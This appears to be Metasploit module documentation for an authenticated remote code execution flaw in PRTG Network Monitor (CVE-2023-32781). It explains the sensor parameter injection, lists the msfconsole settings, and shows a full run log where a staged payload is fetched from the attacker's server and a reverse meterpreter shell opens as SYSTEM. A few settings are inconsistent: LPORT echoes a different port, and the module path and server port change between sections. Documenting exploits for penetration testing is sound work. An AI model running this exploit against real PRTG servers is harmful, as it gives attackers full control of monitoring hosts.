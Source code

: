 ## Vulnerable Application

**Vulnerability Description**

This module exploits a command line parameter injection vulnerability in PRTG Network Monitor (CVE-2023-32781).

An authenticated attacker can create a HL7Sensor which can be ran with a parameter injection. This will allow the attacker to specify the `-debug` parameter which will allow a arbitrary file write on the system in the context of the user `SYSTEM`.

The module uses provided credentials to log in to the web interface, and then creates the HL7Sensor, together with an EXE/Script sensor which runs the payload. Furthermore it cleans up the sensor creation after succesful exploitation.

This vulnerability affects versions  <= 23.2.83.1760

**Vulnerable Application Installation**

PRTG provides a trial version for free (https://www.paessler.com/prtg/download) but it is always updated to the latest version, which won't allow you to test for the vulnerability.

**Successfully tested on**

- PRTG Network Monitor 23.2.83.1760 on Windows 10

## Verification Steps
1. Install the application
1. Start `msfconsole` and run the following:

```
use exploit/windows/http/prtg_authenticated_rce_cve_2023_32781
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set RPORT 13380
RPORT => 13380
msf exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set SRVPORT 10106
SRVPORT => 10106
msf exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set LPORT 4446
LPORT => 4445
msf exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > set LHOST 192.168.56.1
msf exploit(windows/http/prtg_authenticated_rce_cve_2023_32781) > exploit
```

`RHOSTS` refers to the PRTG host
`RPORT` refers to the PRTG port
`SRVHOST` refers to the host where metasploit will serve the second stage payload. This has to be reachable by `PRTG`
`SRVPORT` refers to the port where metasploit will serve the second stage payload. This has to be reachable by `PRTG`
`LPORT` refers to the payload connect port back which in this instance is meterpreter
`LHOST` refers to the payload connect host back which in this instance is meterpreter

After running this you should have a meterpreter instance


## Options
**USERNAME**

PRTG Network Monitor's account that has the right to create Sensors (allowed by default on the initial account).

**PASSWORD**

The password associated with the specified username.


## Scenarios

Running the payload and getting a meterpreter session and then spawning a shell as `nt authority\system`

```bash
msf > use exploit/development/cve_2023_32781
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(development/cve_2023_32781) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf exploit(development/cve_2023_32781) > set RPORT 13380
RPORT => 13380
msf exploit(development/cve_2023_32781) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf exploit(development/cve_2023_32781) > set SRVPORT 10106
SRVPORT => 10106
msf exploit(development/cve_2023_32781) > set LPORT 4446
LPORT => 4445
msf exploit(development/cve_2023_32781) > set LHOST 192.168.56.1
msf exploit(development/cve_2023_32781) > exploit

[*] Started reverse TCP handler on 192.168.56.1:4446 
[*] Using URL: http://192.168.56.1:10105/sF321hmEZCz
[*] Running PRTG RCE exploit
[+] Successfully authenticated against PRTG
[*] Writing .bat to disk
[*] Extracted csrf token: OWVlYTZkYzQwYmEwNDlkZmQ5ZGJiZDQ2OWVkYWU3YTEwZjYxODE4MzM2Y2U4ZGVmZGY1OTFlNzEwOWIxNDMwMA==
[*] Generated sensor_name Wg83qiZvO
[*] Generated bat_file_name rjKu8O2Pt.bat
[+] HL7 Sensor succesfully created
[*] Sleeping 5 seconds to wait for sensor creation
[*] Fetching created sensor id
[*] Extracted sensor_id: 2095
[*] Requesting HL7 Sensor to initiate scan
[*] Extracted csrf token: OWVlYTZkYzQwYmEwNDlkZmQ5ZGJiZDQ2OWVkYWU3YTEwZjYxODE4MzM2Y2U4ZGVmZGY1OTFlNzEwOWIxNDMwMA==
[+] Sensor started running
[+] .bat file written to disk
[*] Running the .bat file: rjKu8O2Pt.bat
[*] Extracted csrf token: OWVlYTZkYzQwYmEwNDlkZmQ5ZGJiZDQ2OWVkYWU3YTEwZjYxODE4MzM2Y2U4ZGVmZGY1OTFlNzEwOWIxNDMwMA==
[*] EXE Script sensor created
[*] Sleeping 5 seconds to wait for sensor creation
[*] Fetching created sensor id
[*] Extracted sensor_id: 2096
[*] Extracted csrf token: OWVlYTZkYzQwYmEwNDlkZmQ5ZGJiZDQ2OWVkYWU3YTEwZjYxODE4MzM2Y2U4ZGVmZGY1OTFlNzEwOWIxNDMwMA==
[+] Sensor started running
[+] Exploit completed. Waiting for payload
[*] Exploit done
[*] Command Stager progress - 100.00% done (150/150 bytes)
[*] Client 192.168.56.1 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.22621.2428) requested /sF321hmEZCz
[*] Sending payload to 192.168.56.1 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.22621.2428)
[*] Sending stage (175686 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.1:4446 -> 192.168.56.1:43926) at 2023-11-23 17:06:34 +0000
[*] Server stopped.

meterpreter > shell
Process 4280 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22621.2428]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\System32>whoami
whoami
nt authority\system
```
